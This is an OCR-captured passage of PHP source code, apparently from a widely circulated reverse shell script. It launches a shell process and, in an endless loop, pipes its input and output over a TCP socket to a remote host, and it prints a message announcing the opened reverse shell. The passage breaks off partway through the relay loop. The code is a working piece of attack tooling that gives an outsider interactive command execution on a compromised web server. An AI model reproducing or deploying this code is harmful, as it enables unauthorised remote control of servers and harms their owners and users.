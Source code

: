 ```web request
$descriptorspec = array(
   0 => array("pipe", "r"),  // stdin is a pipe that the child will read from
   1 => array("pipe", "w"),  // stdout is a pipe that the child will write to
   2 => array("pipe", "w")   // stderr is a pipe that the child will write to
);

$process = proc_open($shell, $descriptorspec, $pipes);

if (!is_resource($process)) {
        printit("ERROR: Can't spawn shell");
        exit(1);
}

// Set everything to non-blocking
// Reason: Occsionally reads will block, even though stream_select tells us they won't
stream_set_blocking($pipes[0], 0);
stream_set_blocking($pipes[1], 0);
stream_set_blocking($pipes[2], 0);
stream_set_blocking($sock, 0);

printit("Successfully opened reverse shell to $ip:$port");

while (1) {
        // Check for end of TCP connection
        if (feof($sock)) {
                printit("ERROR: Shell connection terminated");
                break;
        }

        // Check for end of STDOUT
        if (feof($pipes[1])) {
                printit("ERROR: Shell process terminated");
                break;
        }

        // Wait until a command is end down $sock, or some
        // command output is available on STDOUT or STDERR
        $read_a = array($sock, $pipes[1], $pipes[2]);
        $num_changed_sockets = stream_select($read_a, $write_a, $error_a, null);

        // If we can read from the TCP socket, send
        // data to process's STDIN
        if (in_array($sock, $read_a)) {
                if ($debug) printit("SOCK READ");
                $input = fread($sock, $chunk_size);
                if ($debug) printit("SOCK: $input");
                fwrite($pipes[0], $input);
        }

        // If we can read from the process's STDOUT
        // send data down tcp connection
        if (in_array($pipes[1], $read_a)) {
                if ($debug) printit("STDOUT READ");
                $input = fread($pipes[1], $chunk_size);
                if ($debug) printit("STDOUT: $input");
                fwrite($sock, $input);
        }

        // If we can read from the process's STDERR
        // send data down tcp connection
        if (in_array($pipes[2], $read_a)) {
                if ($debug) printit("STDERR READ");
                $input = fread($pipes[2], $chunk_size);
```